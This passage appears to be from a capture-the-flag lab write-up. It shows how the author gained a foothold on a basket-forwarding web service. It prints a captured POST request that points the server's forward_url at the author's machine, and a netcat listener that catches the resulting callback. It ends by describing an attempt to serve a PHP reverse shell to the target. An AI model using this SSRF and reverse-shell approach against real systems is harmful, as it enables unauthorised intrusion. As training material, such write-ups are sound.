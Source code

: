 # Foothold

I was able to get a packet back from the server. I snagged a post request using Burp. Here is the post code:
```http
POST /api/baskets/test2 HTTP/1.1
Host: 10.129.14.50:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.129.14.50:55555
DNT: 1
Connection: close
Referer: http://10.129.14.50:55555/web
Sec-GPC: 1
Content-Length: 153

{
  "forward_url": "http://10.10.14.103:1234/test2",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```
And using netcat, I get the following back:
```
$ nc -lvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.14.50.
Ncat: Connection from 10.129.14.50:58464.
GET /test2 HTTP/1.1
Host: 10.10.14.103:1234
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
X-Do-Not-Forward: 1

```
Looks like it's a get request back to the URL I gave it. Maybe I can point it to a shell?
I tried pointing it to my machine hosting a php reverse shell, which does download it to the victim, but navigating to it, just has me download it back to my machine... 
